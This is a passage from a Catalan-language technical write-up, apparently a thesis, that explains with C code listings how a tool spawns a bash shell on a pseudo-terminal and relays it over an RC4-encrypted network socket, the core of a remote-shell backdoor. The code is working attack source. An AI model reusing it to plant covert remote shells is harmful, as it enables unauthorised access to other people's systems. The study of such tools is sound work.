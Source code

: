 Un cop tenim
el procés que gestiona la nostre connexió, aquest obre el tty, lliga els seus descriptors de fitxer amb el tty, i executa la shell tal i com veiem a la figura \ref{fig:launcher_launcher_shell}.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
pty @PYbe[=] open(@PYaB["]@PYaB[/dev/ptmx]@PYaB["], O_RDWR);
grantpt(pty);
unlockpt(pty);
tty @PYbe[=] open(ptsname(pty), O_RDWR);
@PYay[if](@PYbe[!](subshell @PYbe[=] fork())) {
    @PYay[if] (fork() @PYbe[!]@PYbe[=] @PYag[0]) exit(@PYag[0]);
    close(pty);
    close(sock);
    @PYaE[// new session to be used with bash]
    setsid();
    ioctl(tty, TIOCSCTTY, @PYaX[NULL]);
    @PYaE[// start using the new tty]
    dup2(tty, @PYag[0]);
    dup2(tty, @PYag[1]);
    dup2(tty, @PYag[2]);
    close(tty);
    @PYay[if] (getuid()) chdir(@PYaB["]@PYaB[/var/tmp]@PYaB["]);
    @PYay[else] chdir(HOME);
    execve(@PYaB["]@PYaB[/bin/bash]@PYaB["], argv_bash, envp);
\end{Verbatim}
\caption{launcher.c::launcher\_shell()}
\label{fig:launcher_launcher_shell}
\end{figure}

Un cop fet això, només falta lligar la connexió amb l'altre extrem del tty. D'aquesta manera les dades que es vagin rebent per la xarxa, s'han de fer arribar a la shell, i les que envia la shell com a sortida, s'han d'enviar de tornada. Podem veure això a la figura \ref{fig:client_client_shell} on es comproba dintre un bucle infinit si hi han dades en el descriptor 0 (entrada estandard) o en el descriptor rsock (descriptor de lectura de la xarxa)

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaE[/* stdin => server */]
@PYay[if] (FD_ISSET(@PYag[0], @PYbe[&]fds)) {
    @PYaJ[int] count @PYbe[=] read(@PYag[0], buf, BUFSIZE);
    @PYay[if] (count @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];
    @PYay[if] (memchr(buf, ECHAR, count)) {
        rc4(buf, count, @PYbe[&]rc4_crypt);
        write(wsock, buf, count);
        @PYay[break];
    }
    rc4(buf, count, @PYbe[&]rc4_crypt);
    @PYay[if] (write(wsock, buf, count) @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];}
@PYaE[/* server => stdout */]
@PYay[if] (FD_ISSET(rsock, @PYbe[&]fds)) {
    @PYaJ[int] count @PYbe[=] read(rsock, buf, BUFSIZE);
    @PYay[if] (count @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];
    rc4(buf, count, @PYbe[&]rc4_decrypt);
    @PYay[if] (memchr(buf, ECHAR, count)) @PYay[break]; @PYaE[// to let server kill client]
    @PYay[if] (write(@PYag[1], buf, count) @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];}
\end{Verbatim}
\caption{client.c::client\_shell()}
\label{fig:client_client_shell}
\end{figure}

